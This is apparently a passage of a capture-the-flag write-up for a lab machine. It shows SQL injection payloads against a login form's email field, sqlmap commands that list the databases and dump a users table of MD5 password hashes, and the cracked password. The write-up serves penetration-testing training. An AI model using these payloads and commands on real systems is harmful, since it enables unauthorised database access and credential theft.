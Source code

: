```
    Payload: email=admin' AND GTID_SUBSET(CONCAT(0x717a6a7071,(SELECT (ELT(8351=8351,1))),0x716b6b7171),8351)-- VZJu&password=admin&remember=Remember Me

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=admin' AND (SELECT 9406 FROM (SELECT(SLEEP(5)))ueXW)-- XqsJ&password=admin&remember=Remember Me
---
...
```
```
└─$ sqlmap -r sqli.req --batch --force-ssl --dbs
...
[18:24:53] [INFO] fetching database names
[18:24:55] [INFO] retrieved: 'information_schema'
[18:24:55] [INFO] retrieved: 'admin'
available databases [2]:
[*] admin
[*] information_schema
...
```
```
└─$ sqlmap -r sqli.req --batch --force-ssl -D admin --tables
...
[18:26:13] [INFO] retrieved: 'users'
Database: admin
[1 table]
+-------+
| users |
+-------+
...
```
```
└─$ sqlmap -r sqli.req --batch --force-ssl -D admin -T users --dump
...
Database: admin
Table: users
[2 entries]
+----+----------------------+----------+----------------------------------+---------------+
| id | email                | active   | password                         | username      |
+----+----------------------+----------+----------------------------------+---------------+
| 1  | admin@europacorp.htb | 1        | 2b6d315337f18617ba18922c0b9597ff | administrator |
| 2  | john@europacorp.htb  | 1        | 2b6d315337f18617ba18922c0b9597ff | john          |
+----+----------------------+----------+----------------------------------+---------------+
...
```

- The password is `SuperSecretPassword!`
  - https://md5hashing.net/hash/md5/2b6d315337f18617ba18922c0b9597ff
